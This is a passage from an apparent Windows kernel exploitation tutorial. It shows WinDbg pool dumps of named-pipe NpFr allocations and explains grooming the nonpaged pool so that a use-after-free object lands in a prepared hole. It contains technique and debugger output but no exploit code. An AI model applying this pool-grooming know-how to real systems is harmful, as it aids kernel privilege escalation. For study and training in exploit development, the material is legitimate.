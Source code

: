 The size in the above output is 0x60 because **!poolfind** command does not add the pool header size.

```
 kd> !pool fffffa8004ddb600
Pool page fffffa8004ddb600 region is Nonpaged pool
 fffffa8004ddb000 size:   70 previous size:    0  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb070 size:   b0 previous size:   70  (Free)       ....
 fffffa8004ddb120 size:   70 previous size:   b0  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb190 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb200 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb270 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb2e0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb350 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb3c0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb430 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb4a0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb510 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb580 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
*fffffa8004ddb5f0 size:   70 previous size:   70  (Allocated) *NpFr Process: fffffa80028cf060
        Pooltag NpFr : DATA_ENTRY records (read/write buffers), Binary : npfs.sys
 fffffa8004ddb660 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb6d0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb740 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb7b0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb820 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb890 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb900 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb970 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddb9e0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddba50 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbac0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbb30 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbba0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbc10 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbc80 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbcf0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbd60 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbdd0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbe40 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbeb0 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbf20 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
 fffffa8004ddbf90 size:   70 previous size:   70  (Allocated)  NpFr Process: fffffa80028cf060
```

The above dump shows that all the allocations are properly aligned in the kernel pool memory. Now, we will try to create lot of holes in the pool, so that the vulnerable **UaF** object falls into one of these holes.

```
kd> !poolused 2 NpFr
.
 Sorting by NonPaged Pool Consumed

               NonPaged                  Paged
 Tag     Allocs         Used     Allocs         Used

 NpFr     14976      1677312          0            0    DATA_ENTRY records (read/write buffers) , Binary: npfs.sys

TOTAL     14976      1677312          0            0
```
